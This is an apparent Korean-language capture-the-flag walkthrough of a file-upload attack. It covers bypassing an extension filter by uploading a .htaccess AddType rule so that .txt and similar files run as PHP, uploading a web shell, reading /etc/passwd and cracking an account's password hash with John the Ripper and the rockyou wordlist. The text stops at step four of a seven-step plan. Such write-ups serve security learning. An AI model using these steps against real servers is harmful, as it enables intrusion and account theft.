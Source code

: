 **시나리오 흐름도**

1. 파일 업로드 기능 확인
2. 확장자 우회
3. 서버 장악
4. 계정 탈취
5. 공격 벡터 확인
6. 권한 상승
7. 정보 수집

***

### 1) 업로드가 가능한 경로

파일 업로드 시 유의미한 경로 발견
```
/uploads/~
```

***

### 2) 특정파일의 확장자 확인

.php .phtml .phar 확장자는 모두 차단되었음.

```sh
AddType application/x-httpd-php .abc .txt .xyz
```
상대 서버 /var/www/html 경로 내에 .htaccess 파일 전송 후

위 3개의 확장자 중 하나로 php 코드 전송

***

### 3) 웹 쉘 업로드 및 파일 확인

웹 쉘이 사용가능하고, find 명령어를 통해 파일의 위치를 확인.
```sh
find / -name flag*
```

***

### 4) 서버 특정 사용자 패스워드 획득

```sh
cat /etc/passwd
```
ems 계정의 해시 함수로 암호화된 비밀번호 획득

rockyou.txt.gz 파일 압축 해제
```sh
gzip -d rockyou.txt.gz
```
test.txt 파일에 복사한 후, 
```sh
john test.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
입력하여 
```sh
john --show test.txt
```
크래킹하여 패스워드 평문 확인
